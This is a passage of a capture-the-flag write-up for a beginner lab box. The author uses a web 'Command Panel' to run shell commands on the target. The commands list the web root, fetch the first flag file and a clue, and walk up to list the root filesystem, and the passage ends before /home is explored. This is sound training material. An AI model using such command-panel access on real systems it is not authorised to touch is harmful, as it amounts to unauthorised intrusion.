 and we're in!

We can use the Command Panel to get our first flag

```
ls -al
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
http://10.10.0.165/Sup3rS3cretPickl3Ingred.txt

1st flag done!

```
http://10.10.0.165/clue.txt
Look around the file system for the other ingredient.
```
this suggest directory traversal

```
cd ../../../../; ls -al
total 88
drwxr-xr-x  23 root root  4096 Feb  3 02:12 .
drwxr-xr-x  23 root root  4096 Feb  3 02:12 ..
drwxr-xr-x   2 root root  4096 Nov 14  2018 bin
drwxr-xr-x   3 root root  4096 Nov 14  2018 boot
drwxr-xr-x  14 root root  3260 Feb  3 02:11 dev
drwxr-xr-x  94 root root  4096 Feb  3 02:12 etc
drwxr-xr-x   4 root root  4096 Feb 10  2019 home
lrwxrwxrwx   1 root root    30 Nov 14  2018 initrd.img -> boot/initrd.img-4.4.0-1072-aws
drwxr-xr-x  21 root root  4096 Feb 10  2019 lib
drwxr-xr-x   2 root root  4096 Nov 14  2018 lib64
drwx------   2 root root 16384 Nov 14  2018 lost+found
drwxr-xr-x   2 root root  4096 Nov 14  2018 media
drwxr-xr-x   2 root root  4096 Nov 14  2018 mnt
drwxr-xr-x   2 root root  4096 Nov 14  2018 opt
dr-xr-xr-x 136 root root     0 Feb  3 02:11 proc
drwx------   4 root root  4096 Feb 10  2019 root
drwxr-xr-x  25 root root   880 Feb  3 02:12 run
drwxr-xr-x   2 root root  4096 Nov 14  2018 sbin
drwxr-xr-x   5 root root  4096 Feb 10  2019 snap
drwxr-xr-x   2 root root  4096 Nov 14  2018 srv
dr-xr-xr-x  13 root root     0 Feb  3 02:11 sys
drwxrwxrwt   8 root root  4096 Feb  3 02:24 tmp
drwxr-xr-x  10 root root  4096 Nov 14  2018 usr
drwxr-xr-x  14 root root  4096 Feb 10  2019 var
lrwxrwxrwx   1 root root    27 Nov 14  2018 vmlinuz -> boot/vmlinuz-4.4.0-1072-aws

```
how about /home
